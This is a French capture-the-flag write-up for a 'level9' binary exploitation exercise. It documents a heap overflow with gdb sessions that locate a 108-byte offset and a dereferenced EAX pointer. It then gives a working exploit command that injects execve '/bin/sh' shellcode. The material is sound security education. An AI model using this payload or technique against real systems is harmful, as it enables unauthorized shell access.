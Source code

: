 **Exploit**:

**Commande**:  
```bash
/level9 $(python -c 'print "\x0c\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
```

**Explication**: 

l'offset est égale a 108 car la data est malloc a 6c
ensuite on vois que eax cela overflow a sur eax et qu'il est dereferencer
il suffira de faire un ret to libc ou un shellcode grace a l adresse de eax afin de lancer un shell

etape 1 :

(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register
eax            0x41366441	1094083649
ecx            0x3965	14693
edx            0x804a0a2	134520994
ebx            0x804a078	134520952
esp            0xbffff680	0xbffff680
ebp            0xbffff6a8	0xbffff6a8
esi            0x0	0
edi            0x0	0
eip            0x8048682	0x8048682 <main+142>
eflags         0x210283	[ CF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51


Du coup l'offset est sur Ad6A donc 108

etape 2 : Trouver l'adresse de EAX
......
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
......
End of assembler dump.
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run AAAA
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x0804867c in main ()
(gdb) info register
eax            0x804a00c	134520844
..........

- Une fois l'adresse de EAX trouve, on peut ecrire notre payload sur 108 octets :

\x0c\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"

**Ressources**:
[Shellcode - shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-827.html)  
[Générateur de Pattern pour Overflow Exploit - ZeroSum0x0 Blog](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html)